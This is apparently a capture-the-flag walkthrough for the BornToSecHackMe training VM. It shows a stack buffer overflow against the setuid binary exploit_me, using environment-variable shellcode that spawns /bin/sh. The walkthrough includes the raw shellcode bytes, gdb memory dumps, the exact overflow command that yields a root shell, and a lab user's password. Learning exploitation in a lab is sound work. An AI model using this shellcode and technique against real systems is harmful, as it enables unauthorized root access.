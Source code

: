 # another way to explose the bomb?

with writeup1 , we have the password zaz 646da671ca01bb5d84dbb5fb2238dc8e
so login again to our VM as zaz
so this time , we are still doing buffer overflow, but with different method
first all, put a shell code into the env:
export SHELLCODE=`python -c 'print "\x90" * 900 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'`


Let's try to find the address of the shell code, again, use our old friend gdb:
`gdb -q exploit_me
 (gdb) b *main
 (gdb) r
 (gdb) x/200xs (char **)environ`
 we have:
 `0xbffff811:	 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f\315\200\061\333\211\330@\315\200\350\334\377\377\377/bin/sh"`


get the address with the shellcode which is 0xbffff811
    x/200x 0xbffff811
    we have:
  `  0xbffff811:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff819:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff821:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff829:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff831:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff839:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff841:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff849:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff851:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff859:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff861:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff869:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff871:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff879:	0x90	0x90	0x90	0x90	0x90	0x90	0xeb	0x1f
0xbffff881:	0x5e	0x89	0x76	0x08	0x31	0xc0	0x88	0x46
0xbffff889:	0x07	0x89	0x46	0x0c	0xb0	0x0b	0x89	0xf3
0xbffff891:	0x8d	0x4e	0x08	0x8d	0x56	0x0c	0xcd	0x80
0xbffff899:	0x31	0xdb	0x89	0xd8	0x40	0xcd	0x80	0xe8
0xbffff8a1:	0xdc	0xff	0xff	0xff	0x2f	0x62	0x69	0x6e
0xbffff8a9:	0x2f	0x73	0x68	0x00	0x53	0x48	0x45	0x4c
0xbffff8b1:	0x4c	0x3d	0x2f	0x62	0x69	0x6e	0x2f	0x62
0xbffff8b9:	0x61	0x73	0x68	0x00	0x54	0x45	0x52	0x4d
0xbffff8c1:	0x3d	0x78	0x74	0x65	0x72	0x6d	0x2d	0x32
0xbffff8c9:	0x35	0x36	0x63	0x6f	0x6c	0x6f	0x72	0x00
0xbffff8d1:	0x53	0x53	0x48	0x5f	0x43	0x4c	0x49	0x45`
    we see the detail, take a address starts with 0x90909090
    here i chose 0xbffff879

so try to exploit it:
`./exploit_me $(python -c 'print "i"*140 + "\x79\xf8\xff\xbf"')`

```sh
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "i"*140 + "\x79\xf8\xff\xbf"')
# whoami
root
```
